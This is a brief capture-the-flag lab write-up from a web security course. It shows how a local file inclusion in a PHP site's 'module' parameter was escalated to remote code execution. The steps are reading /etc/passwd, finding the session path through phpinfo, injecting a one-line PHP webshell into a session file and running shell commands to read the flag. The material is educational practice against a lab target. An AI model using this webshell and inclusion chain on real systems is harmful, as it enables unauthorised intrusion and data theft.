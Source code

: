 ```yaml
---
title: Simple Web 0x07(Lab - `HakkaMD`)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > LFI"
---
```


# Simple Web 0x07(Lab - `HakkaMD`)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8401

## Background
[資安這條路-Local File Inclusion](https://ithelp.ithome.com.tw/articles/10241555)

## Exploit - LFI to RCE
1. First things first, the website has `LFI` problem
`http://h4ck3r.quest:8401/?module=/etc/passwd`
![](https://i.imgur.com/Efl4E0c.png)
2. <font color="FF0000">**通靈**</font>
It provided `phpinfo()` so that we can check the save address of session.
![](https://i.imgur.com/SO727sY.png)
The setting is default, thus we can use `LFI` to read session file:
`http://h4ck3r.quest:8401/?module=/tmp/sess_0qvmvnk5lh140239e6ol9l16h1`
![](https://i.imgur.com/AiLGZJA.png)
We can see that session file store the data of what we enter. Therefore, we could enter `webshell` to get shell
4. `webshell`
`<?php system($_GET['sh']); ?>`
↓
`http://h4ck3r.quest:8401/?module=/tmp/sess_2f0dilri9ju4553th2bkclefal&sh=ls%20/`
↓
![](https://i.imgur.com/kqlIf6z.png)
↓
`http://h4ck3r.quest:8401/?module=/tmp/sess_2f0dilri9ju4553th2bkclefal&sh=cat%20/flag_aff6136bbef82137`
4. Then we got flag!!!
